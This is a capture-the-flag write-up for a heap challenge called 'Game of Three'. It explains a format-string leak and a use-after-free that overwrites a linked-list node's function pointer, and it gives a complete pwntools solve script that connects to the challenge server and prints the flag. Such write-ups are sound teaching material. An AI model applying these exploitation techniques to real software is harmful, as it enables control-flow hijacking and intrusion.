




# Game of Three

494 points - 13 solves

## Description

check out my cool game that uses data structuresTM and algorithmsTM
ncat 144.24.133.118 6003 

## Analysis

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

We are provided the source code and the binary of the challenge. 

The program is a guesser for a random number, you have two arthemetic operations, i.e. + and * given to perform on your current guess and it let's you move up to the number. It creates a log of all the moves made and then can even display them. 


Let's observe some of the functions given. we can see that a `win` function provided for us.

```c
struct Node {
	void (*func_ptr) ();
	struct Node *next;
};
```

the structure of the node stores a function pointer. This is something to be careful about during development because you are passing something that can change the course of execution. Our objective will be to get the win function on this node's function pointer. 

something unintended i believe but there is some type of error in the program. Don't know why but giving '+' or '*' would just give segfaults. This is what the debugger output.



All hail giving source code in binex challenges.

this is because the history pointer was not initialized properly, so you initialize it with `NULL`.

```diff
140 int main()
141 {
142 -   struct Node *history;
142 +   struct Node *history = NULL;
143     setbuf(stdin, NULL);
144     setbuf(stdout, NULL);
```

Now it works. We can see that the repeat function has something interesting for us 👀, i.e. it does the execution of the function pointers stored. 

```c
void history_repeat(struct Node *history)
{
	if (!history->func_ptr)
	{
		return;
	}
	history->func_ptr();
```

So currently we need to find someway to override the function pointer. We can see the workflow that all of these Nodes are stored in the form of a linkedlist with history as the top. And these are using heap allocation for this. Now where is the exploit. 

## Observation

Let's observe the `history_pop`, 

```c
void history_pop(struct Node *history)
{
	struct Node *last_node = history_travel(history);
	free(last_node);
	last_node->next = NULL;
	last_node->func_ptr = NULL;
}
```

The interesting that happens is, the linked list goes till the last node, and frees the last node, and then nulls the next and func_ptr on it. But it never removed it from the list. Meaning the pointer still remains in the linked list. 

But this also means it is right now in the tcache. Tcache is a storage where all heap chunks that are free'd stay for reuse. If another allocation of same sizes is requested it will allocate the same memory chunk. 

Let's understand what is happening now



Now we can basically create a new chunk and we can use the following option we can write to that chunk

```c
case 'e':
    puts("TODO: Leave a message for the creator!");
    message = malloc(sizeof(struct Node));
    read(0, message, sizeof(struct Node));
    break;
```

so we can just overwrite the function pointer to the win address at the last chunk. This would execute it. 



This exploit is commonly called [Use After Free](https://owasp.org/www-community/vulnerabilities/Using_freed_memory).

So our exploit involves

1) creating a memory chunk
2) Freeing that memory chunk
3) Again allocating and writing on that chunk, where we give the win function pointer
4) Repeat the history LL
5) ???
6) PROFIT

## Exploit Development

First we need is a leak of the win address. Fortunately there is mounting of function addresses happening in the main function and there is a printf where we can pass in our pattern. 

```c
	char buffer[64];
	printf("Enter your name: ");
	fgets(buffer, 64, stdin);

	void (*win_ptr) () = &win;
	void (*add_ptr) () = &add;
	void (*mul_ptr) () = &mul;

	leetify(buffer);

	printf("Welcome to Game of Three, ");
	printf(buffer);
```

This is a common [format string attack](https://owasp.org/www-community/attacks/Format_string_attack). 

Let's use this get a leak of the win_ptr. After some fuzzing you will get that `%10$llx` will give the win function's pointer out.



From here it's just scripting work for the exploit. Allocate, delete, and malloc + write the function pointer, and do repeat. 

The following is my solve script. 

```py
from pwn import *

exe = ELF("./game-of-three")

context.binary = exe
context.terminal = ['tmux', 'splitw', '-h']

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("144.24.133.118", 6003)

    return r


def main():
    # gdb.attach(r, '''
    #            heap-analysis-helper
    #            c
    #            ''')

    r = conn()
    pl = "%10$p"
    r.sendlineafter(b"name:",pl.encode())
    r.recvuntil(b"ree,")
    leek = int(r.recvline(),16)
    print(hex(leek))
    r.sendlineafter(b"put:",b"+")
    r.sendlineafter(b"put:",b"d")
    r.sendlineafter(b"put:",b"e")
    r.recvline()
    pl = p64(leek)
    r.sendline(pl)
    r.sendlineafter(b"put:",b"r")

    r.interactive()


if __name__ == "__main__":
    main()
```

And that gives the flag

`cruXipher{A-man1pu1ati0n-0f-h3ap5-4nd-b0und5}`
